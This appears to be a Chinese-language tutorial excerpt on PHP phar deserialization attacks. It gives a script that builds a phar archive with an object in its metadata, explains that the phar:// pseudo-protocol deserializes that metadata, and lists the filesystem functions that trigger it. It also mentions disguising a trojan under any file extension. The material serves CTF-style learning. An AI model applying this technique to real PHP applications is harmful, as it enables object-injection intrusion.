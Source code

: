 ```php
<?php
    class getflag {
        function __destruct() {
            echo "FLAG";
        }
    }
    
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
	
	$a = new getflag();
    $phar->setMetadata($a); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

要讲到反序列化，还要学一个`phar://`伪协议

> `phar://`伪协议
> 这个是php解压缩的一个函数，不管后缀是什么，都可以当作压缩包解压，哪怕是txt文件，所以将木马文件压缩后，改成任意格式都可以正常使用

php一大部分文件系统的函数在通过`phar://`伪协议解析phar文件时，会将meta-data进行反序列化，从而进行攻击

|受影响的函数列表||||
| -----------------| -------------| ------------| -----------------|
|fileatime|filectime|file_exists|file_get_contents|
|file_put_contents|file|filegroup|fopen|
|fileinode|filemtime|fileowner|fileperms|
|is_dir|is_executable|is_file|is_link|
|is_readable|is_writable|is_writeable|parse_ini_file|
|copy|unlink|stat|readfile|
|mime_content_type||||

这些函数在读取到 `phar://` 伪协议时就可以反序列化

‍

‍

‍

参考
[PHP反序列化漏洞详解（万字分析、由浅入深）_php反序列化漏洞原理-CSDN博客](https://blog.csdn.net/Hardworking666/article/details/122373938)

